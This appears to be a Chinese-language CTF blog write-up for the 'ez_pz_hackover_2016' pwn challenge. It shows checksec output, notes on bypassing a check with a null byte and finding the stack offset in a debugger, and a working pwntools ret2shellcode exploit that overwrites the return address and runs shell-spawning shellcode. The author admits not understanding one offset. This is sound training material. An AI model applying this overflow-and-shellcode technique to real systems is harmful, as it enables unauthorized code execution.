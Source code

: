 ```yaml
---
title: '{文件名}'
date: 2024-11-11 13:00:00 +0800
categories: [uaf,malloc_hook,unsortbin_leaklibc]
tags: [ctf,pwn]
---
```

```shell
bamuwe@qianenzhao:~$ checksec ez_pz_hackover_2016
[*] '/home/bamuwe/ez_pz_hackover_2016'
    Arch:     i386-32-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX unknown - GNU_STACK missing
    PIE:      No PIE (0x8048000)
    Stack:    Executable
    RWX:      Has RWX segments
```

![image-20231230200735028](../assets/img/old_imgs/image-20231230200735028.png)

![image-20231230200746307](../assets/img/old_imgs/image-20231230200746307.png)

- 逻辑绕过
- `\x00`阶段
- 动态调试计算栈空间
- `ret2shellcode`

1. 栈保护全关,考虑`ret2shellcode`
2. 通过`\x00`绕过前置验证,进入`vuln`函数
3. `vuln`函数中,会把`&src`赋值给`dest`这其中存在漏洞

正常思路这里就可以构造`payload`了,但是这里`ida`分析出来的`dest`栈空间为`0x32`与实际不符合,我们需要动态调试手动查看栈空间

![image-20231230201124555](../assets/img/old_imgs/image-20231230201124555.png)

> 停在`nop`处查看栈

![image-20231230201222685](../assets/img/old_imgs/image-20231230201222685.png)

![image-20231230201722354](../assets/img/old_imgs/image-20231230201722354.png)

> 手动查找得到栈实际空间为`0x1a`

> distance计算栈之间的距离

```python
from pwn import *
context.log_level = 'debug'
#io = process('./ez_pz_hackover_2016')
io = gdb.debug('./ez_pz_hackover_2016','break vuln')
elf = ELF('./ez_pz_hackover_2016')
io.recvuntil(b'Yippie, lets crash: ')
s_addr = int(io.recv(10),16)
print('s_addr',hex(s_addr))
payload1 = b'crashme\x00'
payload1 = payload1.ljust(0x1a,b'A')
payload1 += p32(s_addr-0x1c)+asm(shellcraft.sh())
io.sendlineafter('> ',payload1)
io.interactive()
```

`s`栈上的空间写不下`shellcode`所以直接把`shellcode`写在`ret`地址之后.

> ?这里的`s_addr`为什么要`-0x1c`还不了解,偏移后的位置正好是一个输入的栈的起始但为什么是这个值还不清楚.

这道题应该也可以通过泄露Libc的方式做,但是没有成功

```python
```